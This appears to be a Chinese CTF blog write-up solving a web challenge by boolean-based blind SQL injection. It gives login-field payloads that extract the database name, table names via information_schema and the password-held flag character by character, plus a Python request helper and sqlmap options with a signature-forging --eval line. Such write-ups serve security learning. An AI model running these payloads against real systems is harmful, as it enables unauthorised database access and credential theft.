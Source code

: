 ```yaml
---
layout: post
title:  "布尔盲注的白给式利用"
date:   2019-05-29
desc: "苟利国家生死以,岂因祸福避趋之"
keywords: none
categories: [CTF,Web]
tags: [sql,web]
icon: icon-html
---
```


# I Am Blind~~（我，星际玩家）~~

题目链接: [http://pwn1.blue-whale.me:23335/](http://pwn1.blue-whale.me:23335/)

这题目都把盲注两个字写脸上了

先`admin'#`试试

发现显示`success login, and flag is your password.`

得，一位一位试就完事了

## 手工注入或脚本注入

> 纯手工

- 库名获取

先把库名长度爆出来

```mysql
admin' and length(database()) = $长度
```

一个一个地试他娘的，试的时候直接对10二分了，还是挺快的

这里得到了库名长度

然后就需要一位一位地获取库名的字符

```mysql
admin' and substr(database(), $位置, 1) = $字符
```

二分比较快wdnmd

- 表名获取

~~我会告诉你库名实际上没什么用？~~

同理先把表名长度爆出来

```mysql
admin' and (select length(table_name) from information_schema.tables where table_schema = database() limit 0,1) = $长度#
```

同理

```mysql
admin' and substr((select table_name from information_schema.tables where table_schema = database() limit 0, 1), $位置, 1) = $字符#
```

- 字段名获取

盲猜`username`和`password`

试一试还真是

- flag获取

一位一位试就是了

```mysql
admin' and substr((select password from $表名 order by id limit 0, 1), $位置, 1) = $字符#
```

反正前五位`flag{`和最后一位`}`是固定的

> 脚本注入

什么你想要脚本？自己慢慢写吧

网上找的login函数

需要注意的是此处POST方法使用了`signature`来进行*sha1*校验，别的就没啥注意事项了

```python
def login(_username, _password):
    url = "http://pwn1.blue-whale.me:23335/index.php"
    data = {
        "username": _username,
        "password": _password,
        "signature": hashlib.sha1(_username + _password).hexdigest()
    }
    response = requests.post(url, data)
    content = response.content
    #print content
    if "success" in content:
        return True
    else:
        return False
```

## SQLMAP

> sqlmap用法

- -u 后接url，指定访问的地址

- \-\-data

  后面接参数表，用于POST方法

- \-\-eval

  设定由某个参数或多个参数决定的变量，如本题**signature**

```shell
--eval="import hashlib;signature=hashlib.sha1(username+password).hexdigest()"
```

- \-\-current-db

  获取当前数据库名

- \-\-tables

  获取数据表名

- \-\-columns

  获取字段名

- \-\-dump

  获取字段值

- -D

  设定数据库名

- -T

  设定数据表名

- -C

  设定字段名

**综上，此题白给**

